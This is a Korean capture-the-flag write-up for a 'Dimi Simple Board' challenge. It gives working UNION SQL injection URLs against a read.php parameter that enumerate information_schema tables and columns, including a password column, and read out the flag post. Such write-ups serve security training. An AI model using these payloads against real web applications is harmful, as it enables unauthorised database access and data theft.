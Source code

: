 # Dimi Simple Board 1

## Overview
게시물에 있는 플래그를 읽어보아요.  
UNION SQL INJECTION   
http://121.170.91.15/jtjjtjjtjjtjjtjj/

## Solution

아무런 소스도 주어지지 않지만 외부의 다른 많은 문제들과 유사하기 때문에 바로 union sql injection이라는 것을 알고 바로 공격을 실행했다

이 과정서 정말 이렇게 저렇게 해봤는데 다 안 됬었다.. 하지만 안 되는 이유는 그저 사용하고 있는 인터넷 환경이 좋지 않아 timeout이 걸린 것이었다.  

그래서 지금 이 writeup을 작성할 때는 그 때와는 다르게 좀더 효율적이고 깔끔하게(?) 만들었다

http://121.170.91.15/jtjjtjjtjjtjjtjj/read.php?idx=8%27union%20select%20table_type,%27%27,table_name,%27%27,%27%27%20from%20information_schema.tables%20where%20table_type%3C%3E%27SYSTEM%20VIEW%27%20limit%200,1%23

http://121.170.91.15/jtjjtjjtjjtjjtjj/read.php?idx=8%27union%20select%20table_type,%27%27,table_name,%27%27,%27%27%20from%20information_schema.tables%20where%20table_type%3C%3E%27SYSTEM%20VIEW%27%20limit%201,1%23

이를 통해 board라는 테이블과 comment라는 테이블이 있다는 것을 알 수 있었다

그리고 이제 Columns를 알아볼 차례이다

http://121.170.91.15/jtjjtjjtjjtjjtjj/read.php?idx=8%27union%20select%20column_name,table_name,%27%27,%27%27,%27%27%20from%20information_schema.columns%20where%20table_name=%27board%27%20limit%200,1%23

이런 형태로 다음과 같은 column이 board와 comment에 있다는 것을 알았다

board
- idx
- writer
- title
- contents
- password

comment
- idx
- page
- writer
- body
- read

이제 1번째 board 게시물을 읽기만 하면 된다!!

정말 간단하게 캐치해 보자

http://121.170.91.15/jtjjtjjtjjtjjtjj/read.php?idx=8%27union%20select%20%27%27,%27%27,title,contents,%27%27%20from%20board%20where%20idx=1%23

![Image](./images/dimi_qna_injection.png)

## flag

dimi{dimi_qna_sqlinjection}